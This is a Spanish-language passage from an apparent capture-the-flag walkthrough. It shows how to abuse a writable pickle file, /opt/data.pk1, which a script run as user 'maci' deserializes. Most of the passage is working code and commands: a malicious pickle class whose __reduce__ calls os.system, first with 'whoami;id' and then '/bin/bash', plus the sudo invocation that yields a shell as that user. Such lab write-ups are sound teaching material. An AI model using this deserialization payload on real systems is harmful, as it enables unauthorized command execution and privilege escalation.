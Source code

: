 solo observo un mensaje, pero si vuelvo al script que se encarga de deserializar, recordemos que deserializa el archivo `/opt/data.pk1` y al revisar los permisos
del archivo veo que es posible modificarlo

![image](https://github.com/user-attachments/assets/af56c9ee-a2ae-4b98-a208-897a7081e2e9)

esto puede conducir a una inyeccion de comandos al manipular el archivo que es deserializado por el script que ejecuta el user `maci`, asi que voy a manipular dicho archivo
 con codigo malicioso para que ejecute comandos y obtener entonces una bash como `maci`

 ```python
import pickle
import os
class Malicious:
   def __reduce__(self):
           return (os.system, ('whoami;id',))
   # Serializar el objeto malicioso
with open('/opt/data.pk1', 'wb') as f:
       pickle.dump(Malicious(), f)
```

guardo el script como `/tmp/inyeccion.py`
este script lo que hara sera modificar el contenido del archivo `/opt/data.pk1` inyectando comandos que se ejecutaran cuando se deserialice

```ruby
chmod +x /tmp/inyeccion.py # le damos permisos de ejecucion
```

ahora ejecuto el script `inyeccion.py`

```ruby
python3 inyeccion.py
```
y luego ejecuto el script de deserializacion como el user `maci`

```ruby
sudo -u maci /bin/python3 /home/maci/.time_seri/time.py
```

![image](https://github.com/user-attachments/assets/81f017f2-a2da-476b-8c7f-9e5fe950f92e)

se han ejecuto los comandos que inyecte, ahora cambiare los comandos `whoami;id` por `/bin/bash` quedando el script `inyeccion.py` de la siguiente manera

```ruby
import pickle
import os
class Malicious:
   def __reduce__(self):
           return (os.system, ('/bin/bash',))
   # Serializar el objeto malicioso
with open('/opt/data.pk1', 'wb') as f:
       pickle.dump(Malicious(), f)
```

Ejecuto nuevamente inyeccion.py para modificar el contenido de `/opt/data.pk1` con el comando `/bin/bash` y despues ejecuto
el script de deserializacion como el user `maci` y obtengo la shell como `maci`
